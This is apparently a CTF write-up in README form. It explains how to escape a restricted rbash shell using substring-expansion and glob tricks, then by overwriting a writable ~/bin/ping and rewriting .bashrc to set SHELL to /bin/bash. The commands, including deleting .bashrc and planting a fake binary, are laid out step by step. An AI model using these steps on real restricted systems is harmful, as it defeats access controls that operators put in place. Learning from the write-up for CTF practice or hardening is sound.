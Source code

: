 # Escaping a Restricted Bash Shell (rbash) 

## ( Probably, Hopefully ) 

This README walks through two complementary techniques for breaking out of a restricted `rbash` session when your keystrokes are limited. First, a **substring-expansion & glob** approach; then a **`tee` + writable-`$HOME/bin/ping`** trick that leverages your per-user `bin` directory and `.bashrc`.

---

## Table of Contents

1. [Problem Statement](#problem-statement)
2. [Technique #1: Substring-expansion & Wildcards](#technique-1-substring-expansion--wildcards)
3. [Technique #2: Overwriting a Writable `ping`](#technique-2-overwriting-a-writable-ping)
4. [Cleanup & Final Steps](#cleanup--final-steps)
5. [Notes & Caveats](#notes--caveats)

---

## Problem Statement

You’ve been dropped into `rbash` with a locked-down PATH and no ability to type letters a–z or backslashes. Allowed characters:

```
0-9  { }  $  /  ?  "  spaces  :  &  >  _  =  (  )
```

You need to:

1. **Escape** the restricted shell.
2. **Read** the flag file (`folder/flag.txt`).

---

## Technique #1: Substring-expansion & Wildcards

> **Prerequisite**: You can capture an error message into a variable.

1. **Capture an error** that contains useful letters (e.g. running a guaranteed-fail command):

   ```bash
   _1=$(/_ 2>&1)
   ```
2. **Splice out** `l` and `s` to build `ls`, then list your single folder:

   ```bash
   _2=$(${_1:32:1}${_1:29:1} 2>&1)      # “ls” → folder  
   _3=$(${_1:32:1}${_1:29:1} ${_2} 2>&1) # “ls folder” → flag.txt
   ```
3. **Use wildcard/glob** to read the flag without typing `cat`:

   ```bash
   "$(<${_2}/????????)" 2>&1            # matches “flag.txt”
   ```

   Wrap in quotes so the leading `return 0 ` from the file doesn’t get executed. Merge stderr (`2>&1`) to see the flag in the “command not found” envelope.

---

## Technique #2: Overwriting a Writable `ping`

Many `rbash` setups allow you to write into `~/bin`. If `ping` is world-writable, you can:

1. **Build a small script** to cat your `.bashrc` (or later, to remove & rewrite it):

   ```bash
   echo '#!/bin/bash'             | tee ~/bin/ping  
   echo '/bin/cat ~/.bashrc'      | tee -a ~/bin/ping
   ```
2. **Run `ping`** (your fake script) to read out your `.bashrc` lines.
3. **Delete the original** `.bashrc` and write a new one that sets `$SHELL` to an unrestricted shell:

   ```bash
   echo '/bin/rm ~/.bashrc'       | tee ~/bin/ping
   ping                           # removes old .bashrc

   echo 'export SHELL=/bin/bash'  | tee ~/.bashrc
   ```
4. **Log out & back in** — now `$SHELL` points to `/bin/bash`, your PATH resets to global defaults, and you’re back in a normal shell.
5. **Invoke a shell escape** from within `vim` (or just run `/bin/bash`) and then:

   ```bash
   ls
   ls folder
   cat folder/flag.txt
   ```

---

## Cleanup & Final Steps

* After escaping, remove your temporary scripts:

  ```bash
  rm ~/bin/ping
  ```
* Restore or archive your old `.bashrc` if needed.
* Enjoy your fully-interactive shell!

---

## Notes & Caveats

* **rbash** forbids typing any letters in commands or filenames; these tricks sidestep that by **splicing** letters from error messages or **abusing** writable user-bin directories.
* The exact substring offsets (`_1:32:1`, etc.) will vary depending on your shell’s error text.
* Always verify which binaries (`bash`, `sh`, `dash`) reside under `/usr/bin` and adjust your glob patterns (`/???/???/????`) accordingly.
* If multiple globs collide (e.g. matching `/dev/pts/ptmx` instead of `/usr/bin/bash`), narrow your pattern or target a shorter name (`sh` via `/???/???/??`).

---

